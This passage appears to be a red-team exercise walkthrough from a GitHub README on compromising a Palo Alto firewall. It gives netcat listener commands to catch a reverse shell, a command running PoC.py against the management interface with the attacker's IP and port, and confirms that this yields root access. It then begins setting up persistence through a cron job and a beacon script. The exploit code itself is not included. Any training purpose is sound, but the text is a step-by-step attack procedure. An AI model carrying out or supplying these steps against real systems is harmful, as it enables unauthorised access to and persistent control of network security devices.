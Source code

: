 - Now that you are fully set up, move to Phase 1.

## Phase 1: Initial Access via Palo Alto Exploit

### Section 1. Setting Up Listeners

1. Open up your terminal, and if you dont already have 4, go to your terminal preferences and change the settings to start with 4 panes.
2. In one of the terminal panes, set up your initial lsitener using Netcat to catch the callback shell from the exploit. Be sure to note the port that you are using for this listener, as it will be needed when initiating the exploit.
   - `nc -lnv <random port>`
3. In another terminal pane, set up a second listener to catch the beacon once the cron job is set up on the compromised Palo. Use the port provided in the *pan_os_comm.py* script that was created earlier.
4. Run the following command to start the second listener:
   - `nc -lnv <port used in script>`

### Section 2. Execute the PoC Script

1. In one of the empty terminal panes, execute the PoC.py script to trigger the exploit:
   `python PoC.py https://<ip_of_palo_management_interface> <ip_address_of_attack_box> <port_of_initial_listener>`
2. Watch the initial listener pane to ensure it catches the callback from the exploit.
   If you see the following, you have successfully exploited the Palo Alto and now have a limited bash shell into the root of the system:
   ![image](https://github.com/user-attachments/assets/0d3b2d49-fe66-4dcb-80da-51204efebfbc)

   If you do not see the following, its time to troubleshoot.
   Troubleshooting steps:
   1. Ensure you are using the correct IP addresses and ports in your listeners and exploit arguments
   2. Ensure there is routing to the Palo Management Interface.
   3. Ensure you copied your exploit script over correctly
   4. If all else fails, find a Sassy Panda SME and pray they have the answers :-)

## Phase 2: Palo Persistence

- `Ctrl-Z` OR `Ctrl-C` **WILL KILL YOUR SHELL**
- Palo Alto Shell has limited functionality
- **Tab autocompletion and the up/down arrow keys won’t work**
- The first priority is to establish persistence using a cron job and the pan_os_comm.py script you created earlier.

1. Start by running some basic enumeration commands to get a sense of your current environment on the machine.

```bash
whoami (response should be "root")
pwd
ls
```
